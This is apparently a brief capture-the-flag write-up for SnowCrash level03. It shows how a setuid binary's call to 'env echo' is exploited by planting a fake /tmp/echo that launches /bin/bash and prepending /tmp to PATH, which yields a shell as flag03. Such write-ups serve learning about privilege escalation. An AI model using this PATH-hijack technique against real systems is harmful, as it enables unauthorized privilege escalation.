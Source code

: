 # An executable file
run "./level03" shows "Exploit me"

## Still GIYF
- `string` command shows `setresgid`, `setresuid`, `system`, `getegid`,`geteuid` functions are used in the source code.
- `ltrace` also shows these function calls.

## script injection
Inside the system functioncall, the program calls the "/usr/bin/env echo ....."
According to the exploit method found online. We can write a shell script and make the system call it.
1. `ls -la` to make sure "level03" file is owned by other user then "level03".(it's owned by flag03)
2. `echo "/bin/bash" > /tmp/echo` to make a fake echo program in which we launch a shell.
3. `export PATH=/tmp:$PATH` to add "/tmp" in front of other path.( So the system will find the program first inside /tmp folder)
4. Launch the level03 binary again. And~~~ our shell becomes "flag03@SnowCrash:~" instead of "level03@SnoCrash:~". Successfuly escalated the user right to flag03 :D
5. Now we can run the "getflag" command and get the token

